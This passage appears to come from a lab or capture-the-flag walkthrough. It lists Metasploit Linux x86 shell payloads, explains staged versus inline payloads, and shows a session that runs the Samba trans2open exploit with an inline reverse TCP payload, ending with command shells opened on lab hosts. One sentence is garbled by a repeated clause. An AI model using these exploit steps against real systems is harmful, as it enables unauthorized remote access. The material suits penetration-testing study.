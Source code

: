 ```bash
   21  payload/linux/x86/shell/bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   22  payload/linux/x86/shell/bind_ipv6_tcp_uuid                         normal  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   23  payload/linux/x86/shell/bind_nonx_tcp                              normal  No     Linux Command Shell, Bind TCP Stager
   24  payload/linux/x86/shell/bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   25  payload/linux/x86/shell/bind_tcp_uuid                              normal  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   26  payload/linux/x86/shell/reverse_ipv6_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   27  payload/linux/x86/shell/reverse_nonx_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   28  payload/linux/x86/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
   29  payload/linux/x86/shell/reverse_tcp_uuid                           normal  No     Linux Command Shell, Reverse TCP Stager
   30  payload/linux/x86/shell_bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind TCP Inline (IPv6)
   31  payload/linux/x86/shell_bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Inline
   32  payload/linux/x86/shell_bind_tcp_random_port                       normal  No     Linux Command Shell, Bind TCP Random Port Inline
   33  payload/linux/x86/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
   34  payload/linux/x86/shell_reverse_tcp_ipv6                           normal  No     Linux Command Shell, Reverse TCP Inline (IPv6)
```

It seems like the exploit was successful, but the Meterpreter sessions were shutting down almost immediately., but the Meterpreter sessions were shutting down almost immediately. Metasploit has two types of payloads: Stager and Inline. The difference between them is that Stager payloads use small "stagers" to fit into small exploitation spaces. When exploiting, the developer usually has a limited amount of memory they can manipulate through the program inputs they are exploiting. Stagers are placed in this space and their only job is to download the rest of the "staged" payload. However, the downside is that these payloads need a connection to something that will send them the rest of the payload. Inline payloads do not have this problem. They are self-contained and can function without any additional support. Let's try to use the Inline version of Reverse TCP payload then...

```bash
msf6 exploit(linux/samba/trans2open) > set payload 33
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.0.10:4444
[*] 192.168.0.14:139 - Trying return address 0xbffffdfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffcfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffbfc...
[*] 192.168.0.14:139 - Trying return address 0xbffffafc...
[*] 192.168.0.14:139 - Trying return address 0xbffff9fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff8fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff7fc...
[*] 192.168.0.14:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (192.168.0.10:4444 -> 192.168.0.14:1077) at 2023-04-27 09:46:15 -0400
[*] Command shell session 6 opened (192.168.0.10:4444 -> 192.168.0.14:1078) at 2023-04-27 09:46:16 -0400
[*] Command shell session 7 opened (192.168.0.10:4444 -> 192.168.0.14:1079) at 2023-04-27 09:46:17 -0400
[*] Command shell session 8 opened (192.168.0.10:4444 -> 192.168.0.14:1080) at 2023-04-27 09:46:19 -0400
```
